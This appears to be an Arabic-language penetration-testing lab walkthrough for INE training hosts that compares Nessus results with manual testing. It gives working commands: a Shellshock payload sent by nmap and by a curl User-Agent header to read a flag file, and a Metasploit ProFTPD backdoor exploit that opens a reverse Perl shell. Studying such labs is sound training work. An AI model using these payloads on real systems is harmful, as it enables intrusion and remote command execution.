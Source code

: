 طيب خلونا الان نفحص يدوي وبنحصل اشياء Nessus ماطلعتها لنا  

اول شي خلونا نضيف التارقت في ملف جديد اسمه Hosts  
```bash  
printf 'demo2.ine.local\ndemo3.ine.local\ndemo4.ine.local\n' > hosts  
cat hosts  
```  

خلونا الان نفحص باستخدام الـ NMAP scan  
```bash  
nmap --script vuln -iL hosts  
```  

نشوف انه حصلنا SQLI  
وطبعا الاداة Nessus ماطلعت لنا هذي الثغره  
ف هذي احد عيوب الاوتوميشن مثلا يعطيك ثغره وهي مو موجوده او انه زي ماحصل معنا مايعطينا كامل الثغرات  


طيب خلونا الان نفحص الويب سيرفر  
```bash  
web server Domain= demo4.ine.local  
```  

طيب ندخل المتصفح ونفتح الدومين نشوف انه طالب ايميل عشان يعطيك اخر التحديثات للموقع  
طبعا لو نشوف فوق بالـ URI في مسار غريب الي هو  /browser.cgi  
طيب حنا نعرف انه الملفات الي امتدادها cgi غالبا مصابة بثغرة HTTP-shellshock  

خلونا نجرب نستغله  
```bash  
nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd=id demo4.ine.local  
```  

نشوف انه قالنا انه فيه خطا 500 وطبعا يفرق من ملف لملف حسب السيناريو ممكن تحتاج تعدل على
الـ Contant تبع الطلب او اي شي اخر على حسب السيناريو  

نجرب الان نعدل الـ Contant-Type  
```bash  
nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' demo4.ine.local  
```  

نشوف انه ضبط تمام الان وعطانا النتجية  
طبعا فيه فلاق خلونا نقراه بهذا الامر اختصار للوقت طلعنا المسار  
```bash  
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /tmp/flag'" http://demo4.ine.local/browser.cgi  
```  

طيب الان عطانا الفلاق خلونا نرجع لثغرة الاوتوميشن الان  

خلونا نجرب نستغل الثغرة الحرجة الي حصلتها لنا اداة Nessus  
```bash  
msfconsole -q  
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor  
show options  
ip addr  
set RHOSTS demo.ine.local  
set PAYLOAD cmd/unix/reverse_perl  
set LHOST 192.243.162.2  
exploit  
id  
cat /flag  
```  
